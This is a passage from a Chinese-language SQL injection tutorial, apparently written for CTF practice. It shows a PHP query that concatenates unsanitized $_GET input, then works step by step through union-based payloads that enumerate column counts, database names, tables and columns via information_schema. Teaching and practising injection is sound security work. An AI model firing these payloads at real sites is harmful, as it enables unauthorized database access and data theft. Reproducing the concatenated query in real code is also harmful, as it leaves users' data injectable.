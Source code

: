 ```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

我们可用理解为两个部分 原有语句 `SELECT username,password FROM users WHERE id = `和用户输入部分`$_GET["id"]`。

前面我们说到，这种语句一般用于用户输入id来索引查询，所以预期的输入都是数字，所以直接采用的直接拼接的方式，以数字的方式进行查询。

然而，用户的输入因为没有过滤的缘故，不管输入什么都会直接拼接到后面，所以我们可用用下面的步骤逐步得到数据库信息：

- 使用 `Order by` 确定列数，方便后续注入。

  ```SQL
  id = 1 Order by 1;
  id = 1 Order by 2;
  id = 1 Order by 3; # 报错 确定列数为 2 
  ```

- 使用联合查询 `union` 基于 `information_schema` 拿到数据库名

  ```SQL
  1 union SELECT 1,schema_name FROM information_schema.schemata;
  # or
  1 union SELECT schema_name,2 FROM information_schema.schemata;
  # 注意这里的 schema_name 一定要放在会显示的列名上面 比如password不显示 但是username显示 那么就用第二种。
  # 此时后台执行为:
  SELECT username,password FROM users WHERE id = 1 union SELECT 1,schema_name FROM information_schema.schemata;
  ```

​		![image-20230426195745130](https://nssctf.wdf.ink//img/WDTJ/202304261957162.png)

​		也可以把1换成其他的，比如`database()` 这样我们可以知道我们当前在哪个数据库

​		![image-20230426195952638](https://nssctf.wdf.ink//img/WDTJ/202304261959665.png)

- 下面就是用联合查询得到数据库里面的表名，一般步骤我们都是先获取当前库 ( `database()` ) 的表，再去看其他库的。

  这里我们基于`UNION` `GROUP_CONCAT(table_name)` 和 `information_schema.tables`

  ```sql
  1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
  1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  # 原理同上
  # 如果要查询其他数据库 可以写为 where table_schema='databaseNAME'
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()
  ```

  ![image-20230426201306290](https://nssctf.wdf.ink//img/WDTJ/202304262013324.png)

- 下面就是去获得 表 的对应字段名 方便我们最后一步的查询工作

  这里我们使用`UNION` `GROUP_CONCAT(column_name)` 和 `information_schema.columns`

  ```sql
  1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()
  1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database()
  # 后台执行为：
  SELECT username,password FROM users WHERE id = 1 union select group_concat(column_name),2 from information_schema.columns where table_schema=database();
  ```
